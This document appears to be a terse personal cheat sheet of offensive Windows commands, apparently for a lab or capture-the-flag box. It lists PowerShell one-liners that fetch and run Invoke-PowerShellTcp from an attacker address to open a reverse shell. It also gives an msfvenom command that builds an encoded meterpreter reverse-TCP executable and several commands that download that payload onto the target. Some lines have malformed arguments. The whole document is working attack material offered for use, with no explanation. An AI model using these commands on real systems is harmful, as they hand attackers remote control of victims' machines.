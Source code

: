 
create powershell in windows

 powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port_
 
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117:8081/psh.ps1');psh.ps1 -Reverse 10.8.249.117 -Port 4443
  
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -10.8.249.117  -Port 4443
  
  powershell iex (New-Object Net.WebClient).DownloadString('http://10.8.249.117/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
  
  Invoke-PowerShellTcp -Reverse -IPAddress 10.8.249.117 -Port 4443
 
 ## create Payload
 
 msfvenom -p windows/meterpreter/reverse_tcp -a x86 --encoder x86/shikata_ga_nai LHOST=10.8.249.117 LPORT=8081 -f exe -o learn.exe
 
 ## call payload
 
 powershell "(New-Object System.Net.WebClient).Downloadfile('http://10.8.249.117:8081/learn.exe','learn.exe')"
 
 invoke-webrequest -Uri "http://10.8.249.117:8081/learn.exe"
 

Start-BitsTransfer -Source "http://10.8.249.117:8081/learn.exe" -d "c:\users"


 
 